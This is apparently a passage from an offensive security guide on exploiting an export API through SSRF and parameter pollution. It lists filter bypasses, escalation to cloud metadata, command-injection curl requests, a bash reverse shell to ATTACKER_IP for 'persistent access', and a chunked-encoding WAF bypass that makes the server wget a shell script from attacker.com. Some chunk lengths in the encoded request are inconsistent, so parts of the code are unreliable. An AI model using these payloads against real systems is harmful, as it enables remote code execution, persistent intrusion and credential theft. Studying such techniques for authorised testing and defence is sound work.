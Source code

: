 If the API blocks `http://`, try:

- **URL encoding**: `http%3A%2F%2Fattacker.com`
    
- **Using alternate IP formats**: `0x7f000001` (127.0.0.1)
    
- **Redirects**: `https://api.target.com/export?type=pdf&type=http://google.com/redirect?url=attacker.com`

###  What to Do If You Confirm SSRF?

1. **Escalate Impact**:
    
    - Access **internal APIs** (`http://internal-api.nasa.gov`).
        
    - Fetch **cloud metadata** (AWS/Azure/GCP).

---

Now **if the server processes CSV files differently (e.g., parsing formulas, shell commands, or database queries),** forcing `type=csv` and injecting malicious input could escalate the impact. Here’s how to test it:
### **Basic Command Injection Test (Simple Override)**

```bash
curl -X POST "https://api.target.com/export" \
  -d "type=pdf&type=csv&data=;id"
```

- If the server **executes `id`** (or reflects it in output), you’ve got **RCE**.
    
- Replace `id` with `whoami`, `ls`, or `curl attacker.com/shell.sh`.

```
uid=0(root) gid=0(root) groups=0(root)
```

Establish Persistent Access Using:

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```

### **Chunked-Encoding Version (WAF Bypass)**

```bash
curl -X POST "https://api.target.com/export" \
  -H "Transfer-Encoding: chunked" \
  --data-binary @- <<EOF
7
type%3d
3
pdf
7
%26type%3d
3
csv
7
%26data%3d
20
;wget${IFS}attacker.com/shell.sh
0

EOF
```

If successful, the server downloads and (potentially) executes your shell script.